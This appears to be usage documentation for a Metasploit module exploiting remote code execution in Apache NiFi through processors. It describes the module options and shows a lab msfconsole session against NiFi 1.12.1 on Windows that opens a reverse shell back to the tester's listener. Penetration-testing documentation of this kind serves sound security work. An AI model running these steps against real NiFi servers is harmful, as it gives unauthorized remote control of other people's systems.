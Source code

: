 ## Options

### TARGETURI

The base NiFi API path. Default: `/nifi-api`.

### DELAY

The delay in seconds before stopping and deleting the processor. This is required because the processor may not start immediately after
being created. Default: `5`.

### USERNAME

Username to authenticate with, if necessary. Optional.

### PASSWORD

Password to authenticate with, if necessary. Optional.

### BEARER-TOKEN

JWT authenticate with, if necessary. Optional.

## Scenarios

The version of NiFi that was installed on both platforms was 1.12.1.

### Windows 10.0.18363 Pro (no authentication required)

```
$ msfconsole -q
msf5 exploit(multi/http/apache_nifi_processor_rce) > use multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash
msf5 exploit(multi/http/apache_nifi_processor_rce) > set lhost 192.168.194.131
lhost => 192.168.194.131
msf5 exploit(multi/http/apache_nifi_processor_rce) > set target 1
target => 1
msf5 exploit(multi/http/apache_nifi_processor_rce) > set rhost 192.168.194.140
rhost => 192.168.194.140
msf5 exploit(multi/http/apache_nifi_processor_rce) > check
[*] 192.168.194.140:8080 - The target appears to be vulnerable.
msf5 exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444 
[*] Waiting 5 seconds before stopping and deleting
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.140:50008) at 2020-10-03 13:17:58 +0100
[*] Session 1 created in the background.
msf5 exploit(multi/http/apache_nifi_processor_rce) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell cmd/windows  Microsoft Windows [Version 10.0.18363.1082] (c) 2019 Microsoft Corporation. A...  192.168.194.131:4444 -> 192.168.194.140:50008 (192.168.194.140)
```
